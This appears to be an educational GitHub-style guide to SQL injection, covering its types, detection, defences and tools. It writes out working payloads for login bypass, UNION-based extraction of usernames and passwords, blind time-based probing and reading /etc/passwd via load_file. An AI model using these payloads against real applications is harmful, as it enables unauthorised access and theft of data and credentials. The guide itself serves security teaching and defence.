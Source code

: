 # 🛡️ SQL Injection (SQLi) – Complete Guide

SQL Injection (SQLi) is one of the most common and dangerous web vulnerabilities.  
It allows attackers to manipulate SQL queries by injecting malicious SQL code into input fields.  
This guide covers everything you need to know: types, techniques, defenses, and resources.

---

## 📚 Table of Contents
1. [What is SQL Injection?](#-what-is-sql-injection)
2. [Types of SQL Injection](#-types-of-sql-injection)
3. [Examples & Payloads](#-examples--payloads)
4. [Detection Techniques](#-detection-techniques)
5. [Defense & Best Practices](#-defense--best-practices)
6. [Tools for SQL Injection](#-tools-for-sql-injection)
7. [Learning Resources](#-learning-resources)
8. [Cheat Sheets & Quick Hints](#-cheat-sheets--quick-hints)

---

## 🔎 What is SQL Injection?

**SQL Injection (SQLi)** is a code injection technique where attackers insert malicious SQL statements into an application's query.  
It can:
- Bypass authentication
- Dump database contents
- Modify or delete data
- Escalate privileges
- Execute remote commands (in some DBMS)

👉 **Risk Level:** Critical  
👉 **OWASP Top 10:** Always listed in *Injection* category

---

## 🧩 Types of SQL Injection

### 1. Classic SQLi
Directly modifies SQL queries via input.
```sql
' OR '1'='1
````

### 2. Blind SQLi

Results are not directly visible; attacker infers info using **boolean** or **time-based** methods.

* **Boolean-based**:

```sql
' AND 1=1 -- ✅
' AND 1=2 -- ❌
```

* **Time-based**:

```sql
' OR IF(1=1, SLEEP(5), 0) --
```

### 3. Error-Based SQLi

Leverages database error messages to extract info.

```sql
' ORDER BY 100 --
```

### 4. Union-Based SQLi

Extracts data by combining results with a `UNION SELECT`.

```sql
' UNION SELECT null, username, password FROM users --
```

### 5. Out-of-Band SQLi

Uses external connections (DNS/HTTP requests) to exfiltrate data.

---

## 💻 Examples & Payloads

### Bypassing Login

```sql
' OR '1'='1 --
' OR '1'='1'#
' OR 1=1/*
```

### Extracting Data (Union)

```sql
' UNION SELECT null, database(), user() --
```

### Identifying Columns

```sql
' ORDER BY 1 --
' ORDER BY 2 --
```

### Time Delay (MySQL)

```sql
' OR SLEEP(5) --
```

---

## 🔍 Detection Techniques

* Input fuzzing (`'`, `"`, `--`, `/*`)
* Monitoring application error messages
* Boolean-based tests (true/false responses)
* Timing attacks
* Automated tools (e.g., **sqlmap**)

---

## 🛡️ Defense & Best Practices

✔️ **Use Prepared Statements (Parameterized Queries)**

```python
# Python Example
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (user, pwd))
```

✔️ **Use Stored Procedures** (with caution)
✔️ **Whitelist Input Validation**
✔️ **Least Privilege Principle** – Limit DB user rights
✔️ **Web Application Firewalls (WAFs)**
✔️ **Keep DBMS & Frameworks Updated**
✔️ **Error Handling** – Do not reveal SQL errors to users

---

## ⚒️ Tools for SQL Injection

* [sqlmap](https://github.com/sqlmapproject/sqlmap) – Automated SQLi tool
* Burp Suite – Web proxy for testing SQLi
* Havij (old, not recommended but historically used)
* jSQL Injection
* NoSQLMap (for NoSQL injections)

---

## 📘 Learning Resources

* [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
* [PortSwigger SQLi Academy](https://portswigger.net/web-security/sql-injection)
* [HackTheBox Labs](https://www.hackthebox.com/)
* [TryHackMe SQL Injection Room](https://tryhackme.com/)
* [PayloadsAllTheThings (GitHub)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

---

## 📝 Cheat Sheets & Quick Hints

### Quick Payloads

```sql
' OR '1'='1 --
' UNION SELECT null, null, version() --
' AND ASCII(SUBSTRING((SELECT database()),1,1))=100 --
```

### Useful SQL Functions

* `database()`
* `user()`
* `version()`
* `load_file('/etc/passwd')`

### Notes

* Always enumerate **columns** and **tables** before extracting data
* Use `information_schema.tables` and `information_schema.columns`
* Be cautious: real-world exploitation is illegal without permission 🚨

---

## 🎨 Final Notes

SQL Injection is **powerful but preventable**.
Understanding how it works helps **developers secure applications** and helps **security professionals test systems responsibly**.

👉 **Rule #1: Never trust user input.**

---
